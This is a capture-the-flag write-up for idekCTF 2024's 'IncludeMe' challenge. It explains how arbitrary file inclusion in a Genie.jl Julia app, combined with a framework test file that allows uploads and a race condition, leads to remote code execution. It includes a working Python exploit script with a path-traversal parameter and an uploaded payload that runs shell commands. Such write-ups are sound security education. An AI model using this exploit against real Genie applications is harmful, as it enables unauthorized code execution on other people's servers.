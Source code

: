 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4662623BKM6%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T210321Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjECUaCXVzLXdlc3QtMiJHMEUCIQCpiF26yD97rMeJfYw8FtaEjX0P35WJ8HD56pQZQ3ZZqgIgI3tRYAJhNo38PVwwGQDJOCHXTyS6bco5%2B7S4ZkFCZdcqiAQI3v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDDI6eqCPP8kMeK2tPyrcA87gHuSeJRMWY63EZpcGlrgs6Y42K5Mulvfp3n08vpS8YAevTPHIJXQ07JrxrBnin1T5mfuOgQP6iF5Nx54NNq9FYsAC4AFZSY8FPoj6VG2N8wdilyUx3dY7bPxgvH0qLmJgfcJpKhVqW%2Bpru%2BK9exPnCEQ%2Fb0vS3yVLhAsjsJ%2BLn5%2Bks4ORmwrePJdDCmYeplq%2Fppt8RtWdbQuOSjoO7bIt%2BUO9sPMUeH%2FH7MeDIY6xWpX2G3sYJcWWwrx2Ks2U9Ed9%2BTUQXQkkJVXlGkeRfSUYDmMxBnTsyUa5idHfO7rhalkZJQ6lz8IsUGwf9XKZeQSCTvUjrrU%2FWXpM1cdcRyTXb8zy2TMPxJ2dP3OROeSmulc4PUg10x7zAjVg5tnu7hwriK7XiEjXd8dAE5kGf4Dh3%2B0qm3C3r%2FO9veDUo9olrZWBgiVqupRDp53NlYofq5dnC8O98MyG3T4ZbH%2FXcpYd3TmXR3evY8Yiqr5H%2FOm%2B6E6SbOxcKp8jNhSduT07BAGHJJJ4FqDfiJGUw0fZdfkIrMhsTKkir0vOaE%2BoW3FItmXLhvhV9ECqK%2F23yufaP%2BKV0LmxImeU7v41G95dEi3ieMxCm8FCj0rXcxESfCUAesMiNqxHIN0TtiPuMI2TvsEGOqUBp%2FlP9Uo1rvBINg8Ob60vGj9wAVFvL9FZVVILQLpXXe6btnNZHKAG5SFqRD5vfIV%2BrFKOmbQ3ipKpruV%2FLpmsxo5TZartL4YSLMLweN45yEkUVCFfIq9ntLF48BvVyMbgtfVqDCo%2FaWs7ez8sEY4s%2BROBEQ%2FsFhngk6Mua6XWxdc0WBkAEKdi7Rf%2FmRFsVejxgPdJtCcGNi0aCh9wgjXQ3XsHnwAU\&X-Amz-Signature=e1a50f663d0ea2b9738731b511d1ae6f69d2486ee9d05117548af49c3e971b0a\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
